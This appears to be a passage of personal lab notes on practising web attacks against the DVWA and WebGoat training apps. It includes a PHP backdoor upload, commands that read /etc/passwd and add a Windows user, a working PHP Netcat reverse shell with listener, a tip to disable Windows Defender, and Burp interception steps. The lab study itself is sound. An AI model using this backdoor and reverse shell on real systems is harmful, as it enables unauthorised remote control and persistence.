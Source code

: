 - List contents of `php` directory and make simple backdoor script and upload it to DVWA

![](https://i.imgur.com/kxDH0PZ.png)

> **Troubleshooting!**
> If script runs and gets removed, disable Windows Defender and upload the file and run it again!

- Backdoor can run commands from the URL

![](https://i.imgur.com/HJivVJH.png)
![](https://i.imgur.com/uIvJQqO.png)
```
cat /etc/passwd
net user secretuser 1q2w3e4r! /add
```

- Netcat Reverse Shell for Windows
```php
<?php
	header("Content-type: text/plain");
	$ip = "Kali-IP";  // Change to Kali IP
	$port = "443";    // Change to any port number not in use
	$cmd = "nc.exe -e cmd.exe ".$ip." ".$port;
	echo "\nExecuting : ".$cmd."\n";
	$output = system($cmd)
?>	
```

- Run Netcat on Kali to listen to port
```
sudo nc -l -p <port-number>
```

- Upload Netcat reverse shell and `nc.exe` on the file to DVWA file upload
- Browse to Reverse Shell
```
http://Win10-IP/dvwa-master/hackable/uploads/nc-reverse-shell.php
```

## WebGoat
- Default port: 8080
- Run command to change port of WebGoat:
```
java -jar webgoat-server-nnnn.jar --server.port=9090
```

- Configure the following proxy settings `about:config` in Firefox browser
![](https://i.imgur.com/H4UQAhV.png)

### Bypass Front-End Restrictions
- Connect browser to Burp Proxy and enable **Intercept** on Burp
- Forward packets until submitted form is found
	- Inputs can be modified below
![500](https://i.imgur.com/8h2pCRH.png)
